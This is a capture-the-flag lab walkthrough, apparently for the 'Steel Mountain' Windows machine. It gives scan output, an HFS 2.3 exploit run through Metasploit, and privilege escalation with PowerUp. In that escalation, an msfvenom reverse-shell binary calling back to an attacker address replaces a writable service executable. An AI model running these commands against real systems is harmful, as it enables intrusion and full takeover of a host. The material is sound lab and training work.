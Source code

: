 # enumerate
- port
```
port scanning...
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
8080/tcp  open  http-proxy
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49159/tcp open  unknown
49161/tcp open  unknown
Enumerating open ports...
```
- services
```
PORT      STATE SERVICE            VERSION
80/tcp    open  http               Microsoft IIS httpd 8.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/8.5
|_http-title: Site doesn't have a title (text/html).
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server?
|_ssl-date: 2020-07-19T14:23:37+00:00; +1s from scanner time.
8080/tcp  open  http               HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
49159/tcp open  msrpc              Microsoft Windows RPC
49161/tcp open  msrpc              Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows Server 2012 (96%), Microsoft Windows Server 2012 R2 (96%), Microsoft Windows Server 2012 R2 Update 1 (96%), Microsoft Windows 7, Windows Server 2012, or Windows 8.1 Update 1 (96%), Microsoft Windows Server 2012 or Server 2012 R2 (95%), Microsoft Windows Vista SP1 (95%), Microsoft Windows Server 2008 SP2 Datacenter Version (94%), Microsoft Windows Server 2008 R2 (93%), Microsoft Windows Home Server 2011 (Windows Server 2008 R2) (93%), Microsoft Windows Server 2008 SP1 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_nbstat: NetBIOS name: STEELMOUNTAIN, NetBIOS user: <unknown>, NetBIOS MAC: 02:5f:11:43:b6:98 (unknown)
|_smb-os-discovery: ERROR: Script execution failed (use -d to debug)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-07-19T14:23:31
|_  start_date: 2020-07-19T14:11:43
```
- smb : cant login anonymous
- port 80 using gobuster: just Bill Harper here, he is a cute dude who love cat
```
/Index.html (Status: 200)
/img (Status: 301)
/index.html (Status: 200)
```
- port 8080 : HttpFileServer httpd 2.3
  - cant login with common password
  - https://www.exploit-db.com/exploits/39161

# with Metasploit

# Foothold
The is a metasploit module for this exploit, open `msfconsole` and run `search hfs`. Select the exploit and fill every requried varible in the `options`. Execute the exploit when you are done.

# Root
we will use `PowerUp.ps1` to find a potential priv esc vector. `PowerUp` purpose is to evaluate a Windows machine and determine any abnormalities - "PowerUp aims to be a clearinghouse of common Windows privilege escalation vectors that rely on misconfigurations."

let find out `PowerUP`:
```console
kali@kali:~$ find / -name PowerUp.ps1 2> /dev/null
```
To execute this using Meterpreter, I will type ```load powershell``` into meterpreter to load the extension. Then enter powershell by execute ```powershell_shell``` then execute the script
```
meterpreter > upload /home/kali/Empire/data/module_source/privesc/PowerUp.ps1
[*] uploading  : /home/kali/Empire/data/module_source/privesc/PowerUp.ps1 -> PowerUp.ps1
[*] Uploaded 550.06 KiB of 550.06 KiB (100.0%): /home/kali/Empire/data/module_source/privesc/PowerUp.ps1 -> PowerUp.ps1
[*] uploaded   : /home/kali/Empire/data/module_source/privesc/PowerUp.ps1 -> PowerUp.ps1
meterpreter > load powershell
Loading extension powershell...Success.
meterpreter > powershell_shell
PS > . .\PowerUp.ps1
PS > Invoke-AllChecks
.
.
.
[*] Checking service executable and argument permissions...


ServiceName                     : AdvancedSystemCareService9
Path                            : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiableFile                  : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiableFilePermissions       : {WriteAttributes, Synchronize, ReadControl, ReadData/ListDirectory...}
ModifiableFileIdentityReference : STEELMOUNTAIN\bill
StartName                       : LocalSystem
AbuseFunction                   : Install-ServiceBinary -Name 'AdvancedSystemCareService9'
CanRestart                      : True
.
.
.
```
note that we have premission to **restart** this service, moreover, the directory to the application is also **write-able**. This means we can replace the legitimate application with our malicious one, restart the service, which will run our infected program!


now let create msfvenom reverse shell read [here](https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/). We will replace the service which call ```ASCService.exe```, in Kali:
```console
kali@kali:~/THM/steel$ msfvenom -p windows/shell_reverse_tcp LHOST=10.8.14.151 LPORT=6969 -e x86/shikata_ga_nai -f exe -o ASCService.exe
```
back to meterpreter. upload the shell
```
meterpreter > cd C:/Users/bill/Desktop
meterpreter > upload /home/kali/THM/steel/ASCService.exe
[*] uploading  : /home/kali/THM/steel/ASCService.exe -> ASCService.exe
[*] Uploaded 72.07 KiB of 72.07 KiB (100.0%): /home/kali/THM/steel/ASCService.exe -> ASCService.exe
[*] uploaded   : /home/kali/THM/steel/ASCService.exe -> ASCService.exe
meterpreter > 
```
now load powershell again, we will stop the service -> replace our reverse shell with the real `ASCService.exe` -> start up the service again
```
meterpreter > powershell_shell 
PS > Stop-Service -Name "AdvancedSystemCareService9"
PS > Copy-Item "ASCService.exe" -Destination "C:\Program Files (x86)\IObit\Advanced SystemCare\"
PS > Start-Service -Name "AdvancedSystemCareService9"
```
**NOTE** before start the service back up dont forget to `netcat` and listen for the port. Now run `more root.txt` to get root flag


# without MSF
im lazy read [here](https://www.cybersecpadawan.com/2020/04/tryhackme-steel-mountain-metasploit-and.html)